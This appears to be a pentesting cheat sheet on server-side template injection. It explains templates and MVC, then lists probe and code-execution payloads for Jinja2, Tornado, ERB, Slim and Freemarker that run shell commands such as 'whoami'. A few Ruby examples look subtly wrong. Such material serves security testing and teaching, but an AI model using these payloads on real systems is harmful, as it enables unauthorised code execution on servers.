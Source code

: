 ```yaml
---
description: Server-Side Template Injection
---
```


# SSTI

Server-side template injection can be used for XSS, sensitive information disclosures, and even code execution.

**💡NOTE:**

To understand server-side template injection you must understand templates and to understand templates you must understand the model–view–controller design pattern.

View is used to manipulate the HTML code and is normally implemented using templates.

Templates allow you to have placeholders in your HTML code where you can pass in variables.

* Template engines can do all kinds of things such as calling functions and methods, looping over variables, and arithmetic.
* EX: the expression “\{{Title\}}” will be replaced by whatever argument is passed to the template engine:

```html
  <head>
    <title>{{Title}}</title>
  </head>
```

#### Model–view–controller design pattern

a user initiates a request to the controller -> controller uses the model to gather information from the back-end database -> information is passed back to the controller -> controller passes the information to the view the updated view is passed back to the controller -> sent to the user and rendered in the browser.

<figure><img src="../.gitbook/assets/Screenshot 2023-10-05 211128.png" alt=""><figcaption></figcaption></figure>

## Examples of Template Engines

### <mark style="color:yellow;">1. Python - Jinja 2</mark>

If you find server-side template injection in the Jinja 2 template engine the severity of your finding depends on what Python classes you have access to.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**Method Resolution Order (MRO):** is the order in which Python looks for a method in a hierarchy of classes.

* For this attack, we only care about the root object class.

**SSTI testing payloads:**

* \{{7\*7\}}        ->  49
* \{{7\*’7’\}}       ->  7777777
* \{{‘’.\_\_class\_\_.\_\_mro\[1]\}}    -> get the root object by the second index in the array.
* \{{\[].\_\_class\_\_.\_\_base\_\_\}}  -> get the root object on an empty array.
* \{{\[].\_\_class\_\_.\_\_mro\[1]\_\_subclasses\_\_()\}}  -> list all the subclasses of a class.

<mark style="color:green;">**For Code Execution:**</mark>

* \{{\[].\_\_class\_\_.\_\_mro\_\_\[1].\_\_subclasses\_\_()\[-3]\('whoami',shell=True,stdout=-1).communicate()\[0]\}}
* \{{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'].popen('whoami').read()\}}

### <mark style="color:yellow;">2. Python - Tornado</mark>

Tornado is a scalable, non-blocking web server and web application framework written in Python.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

Any library available to Python is also available to the template engine, which means you can import a Python library and call it.

<mark style="color:green;">**For Code Execution:**</mark>

* { % import os %\}\{{ os.popen("whoami").read() \}}
* { % import subprocess %\}\{{ subprocess.Popen('whoami',shell=True,stdout=-1).communicate()\[0]\}}

### <mark style="color:yellow;">3. Ruby- ERB</mark>

Looks like a plain-text document interspersed with tags containing Ruby code.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

**ERB tags for embedding code:**

* <% code %>   -> executes ruby code.
* <%= code %> -> executes ruby code and returns the results.

**SSTI testing payloads:**

* <%= 7 \* 7 %>   -> 49
* <%= 'whoami' %>
* <%= IO.popen('whoami').readlines() %>
* <%= require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
* <%= require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>

### <mark style="color:yellow;">4. Ruby - Slim</mark>

Fast, lightweight templating engine with support for Rails 3 and later.

Like the ERB template engine, you can execute any ruby command you want.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

To execute a shell command just wrap your command in backticks.

* <mark style="color:green;">#{code}</mark>
* \#{ 'whoami' }

### <mark style="color:yellow;">5. Java - Freemarker</mark>

The most popular template engine for Java.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

The **new()** command is used to instantiate classes -> execute class can be used to execute shell commands.

* ${7\*7}  ->  49

<mark style="color:green;">**For Code Execution:**</mark>

* <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}
* \[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('whoami')}
* ${"freemarker.template.utility.Execute"?new()("whoami")}

